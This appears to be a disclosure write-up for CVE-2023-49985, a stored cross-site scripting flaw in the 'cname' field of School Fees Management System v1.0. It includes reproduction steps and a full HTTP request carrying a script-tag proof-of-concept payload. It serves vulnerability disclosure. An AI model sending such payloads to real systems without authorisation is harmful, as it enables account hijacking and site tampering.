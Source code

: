 # CVE-2023-49985
# School Fees Management System v1.0 - Cross-Site Scripting (XSS) Vulnerability in "cname" parameter on "new_class"

**Description**: A cross-site scripting (XSS) vulnerability in the component "new_class" of School Fees Management System v1.0 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the cname parameter. 

**Vulnerable Product Version**: School Fees Management System v1.0  
**CVE Author**: Geraldo Alcântara  
**Date**: 28/11/2023  
**Confirmed on**: 19/12/2023  
**CVE**: CVE-2023-49985  
**Tested on**: Windows  
### Steps to reproduce:  
To exploit the vulnerability, a user with appropriate permissions must access the "/ci_fms/admin/management/class" page. On this page, the user should either edit an existing class or add a new one. The malicious payload needs to be inserted into the "cname" parameter during this process.
### Request:  
```
POST /ci_fms/admin/action/new_class HTTP/1.1
Host: 192.168.68.148
Content-Length: 273
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.68.148
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAbJT9XS9eFLU53MR
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.68.148/ci_fms/admin/management/class
Accept-Encoding: gzip, deflate, br
Accept-Language: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: ci_session=gdoj5tr7rsf7ci5o9rpr0rh5eni2r6an
Connection: close

------WebKitFormBoundaryAbJT9XS9eFLU53MR
Content-Disposition: form-data; name="cname"

<script>alert(document.domain)</script>
------WebKitFormBoundaryAbJT9XS9eFLU53MR
Content-Disposition: form-data; name="cfees"

12,000
------WebKitFormBoundaryAbJT9XS9eFLU53MR--
```

Discoverer(s)/Credits:  
Geraldo Alcântara
